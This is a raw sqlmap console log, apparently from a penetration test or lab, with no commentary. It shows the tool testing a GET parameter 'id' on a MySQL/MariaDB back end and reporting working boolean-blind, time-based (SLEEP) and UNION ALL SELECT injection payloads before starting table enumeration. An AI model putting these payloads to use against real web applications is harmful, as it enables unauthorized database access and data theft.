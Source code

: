 ```bash
[17:01:47] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[17:01:47] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[17:01:47] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[17:01:48] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[17:01:48] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[17:01:48] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[17:01:48] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[17:01:48] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[17:01:48] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[17:01:48] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[17:01:48] [INFO] testing 'Generic inline queries'
[17:01:48] [INFO] testing 'MySQL inline queries'
[17:01:49] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[17:01:49] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[17:01:49] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[17:01:49] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[17:01:49] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[17:01:49] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[17:01:49] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:01:59] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[17:01:59] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[17:01:59] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[17:01:59] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[17:01:59] [INFO] target URL appears to have 3 columns in query
[17:02:00] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 69 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1466=1466

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 2158 FROM (SELECT(SLEEP(5)))dlLn)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,CONCAT(0x7162716a71,0x75434957664547777a4e7548474f546166475a737a636d6c4846585769544549554541726969764e,0x71787a7671),NULL-- -
---
[17:02:08] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[17:02:08] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
```